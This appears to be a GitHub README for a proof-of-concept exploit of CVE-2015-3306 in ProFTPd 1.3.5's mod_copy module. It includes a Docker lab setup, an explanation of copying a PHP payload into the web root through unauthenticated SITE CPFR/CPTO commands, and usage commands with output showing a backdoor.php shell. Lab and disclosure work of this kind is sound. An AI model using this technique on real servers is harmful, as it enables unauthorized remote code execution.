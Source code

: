 # ProFTPd 1.3.5 - (mod_copy) Remote Command Execution

ProFTPD is a highly configurable FTP daemon for Unix and Unix-like operating systems. ProFTPD grew from a desire for a secure and configurable FTP server. It was inspired by a significant admiration of the Apache web server. Unlike most other Unix FTP servers, it has not been derived from the old BSD `ftpd` code base, but is a completely new design and implementation.

## Vulnerable environment

To setup a vulnerable environment for your test you will need [Docker](https://docker.com) installed, and just run the following command:

    docker build -t vuln/cve-2015-3306 .
    docker run --rm -it -p 21:21 -p 80:80 vuln/cve-2015-3306

And it will spawn a vulnerable application on your host on `21` and `80` port

## Vulnerable code

The `mod_copy` module in ProFTPD 1.3.5 allows remote attackers to read and write to arbitrary files via the site cpfr and site cpto commands.
Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination. The copy commands are executed with the rights of the ProFTPD service, which by default runs under the privileges of the 'nobody' user. By using `/proc/self/cmdline` to copy a PHP payload to the website directory, PHP remote code execution is made possible.

## Exploit

To exploit this target just run:

    ./exploit.py --host HOST --port PORT --path PATH

If you are using this vulnerable image, you can just run:

    ./exploit.py --host 127.0.0.1 --port 21 --path "/var/www/html/"

After the exploitation, a file called backdoor.php will be stored on the root folder of the web directory. And the exploit will drop you a shell where you can send commands to the backdoor:

	./exploit.py --host 127.0.0.1 --port 21 --path "/var/www/html/"
	[+] CVE-2015-3306 exploit by t0kx
	[+] Exploiting 127.0.0.1:21
	[+] Target exploited, acessing shell at http://127.0.0.1/backdoor.php
	[+] Running whoami: www-data
	[+] Done

## Credits

This vulnerability was found by Vadim Melihow.

## Disclaimer

This or previous program is for Educational purpose ONLY. Do not use it without permission. The usual disclaimer applies, especially the fact that me (t0kx) is not liable for any damages caused by direct or indirect use of the information or functionality provided by these programs. The author or any Internet provider bears NO responsibility for content or misuse of these programs or any derivatives thereof. By using these programs you accept the fact that any damage (dataloss, system crash, system compromise, etc.) caused by the use of these programs is not t0kx's responsibility.
